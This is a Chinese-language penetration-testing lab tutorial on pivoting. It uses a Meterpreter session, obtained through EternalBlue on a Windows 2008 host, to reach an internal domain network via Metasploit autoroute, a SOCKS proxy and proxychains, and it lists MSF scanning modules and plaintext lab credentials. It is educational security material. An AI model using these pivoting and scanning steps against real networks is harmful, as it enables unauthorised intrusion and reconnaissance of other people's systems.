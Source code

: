 在渗透测试过程中，经常拿到web主机与数据库不同在一个网段，可以得出这台主机还连着一个内网，<br/> 如果想要继续渗透内网，可以把这台web主机当作跳板机，对内网进行渗透

##### 实验环境

```
域控：
windows2012
192.168.3.33
administrator/Admin12345
 
域内成员主机：

windows2008
192.168.3.22
192.168.200.134
administrator/admin!@#45
xd\dbadmin/admin!@#45
 
域内成员主机：
windows7
192.168.3.11
administrator/admin!@#45
xd\dbadmin/admin!@#45

攻击机:
kalilinux
192.168.200.128

```

kali不通192.168.3.0段<br/> 通过永恒之蓝拿到Windows2008的meterpreter<br/> 获取内网网卡命令<br/> `run get_local_subnets`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/a25abd9b65764208af7ec7e74033eb62.jpeg"/><br/> 绑定路由 不绑定路由就没法访问目标主机

```
run autoroute -s 192.168.3.0/24
route add 192.168.3.0 255.255.255.0 1
run autoroute -p

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/88f2a331edca26ac50b42579075877fe.jpeg"/><br/> 使用socks5隧道,这个代理就是开启了一个socks代理，监听vps本地端口，然后再通过这个端口将流量转给msf，msf转发给路由，所以能将流量直接带入到内网中<br/> `use auxiliary/server/socks_proxy`<br/> show options设置代理ip为127.0.0.1<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/2b48680bc857f0eaf532a0ca4ec7fe37.jpeg"/><br/> 编辑隧道配置文件<br/> `sudo vi /etc/proxychains4.conf`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/89997a474aff1df621193601652c0256.jpeg"/><br/> msf 使用代理访问目标

```
setg Proxies socks5:192.168.200.199:1080
set ReverseAllowProxy true

```

`proxychains nmap -p 1-10000 -Pn -sT 192.168.3.11`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/7a3ac8cd3e816f23be7fb5a99823f5ec.jpeg"/><br/> 成功代理打通网段

#### 域信息收集

MSF常用信息收集模块

```
auxiliary/scanner/discovery/arp_sweep #基于arp协议发现内网存活主机，这不能通过代理使用
auxiliary/scanner/portscan/ack #基于tcp的ack回复进行端口扫描，默认扫描1-10000端口
auxiliary/scanner/portscan/tcp #基于tcp进行端口扫描，默认扫描1-10000端口
auxiliary/scanner/discovery/udp_sweep #基于udp协议发现内网存活主机
auxiliary/scanner/discovery/udp_probe #基于udp协议发现内网存活主机
auxiliary/scanner/netbios/nbname #基于netbios协议发现内网存活主机
auxiliary/scanner/ftp/ftp_version #发现内网ftp服务，基于默认21端口
auxiliary/scanner/ssh/ssh_version #发现内网ssh服务，基于默认22端口
auxiliary/scanner/telnet/telnet_version #发现内网telnet服务，基于默认23端口
auxiliary/scanner/dns/dns_amp #发现dns服务，基于默认53端口
auxiliary/scanner/http/http_version #发现内网http服务，基于默认80端口
auxiliary/scanner/http/title #探测内网http服务的标题
auxiliary/scanner/smb/smb_version #发现内网smb服务，基于默认的445端口
```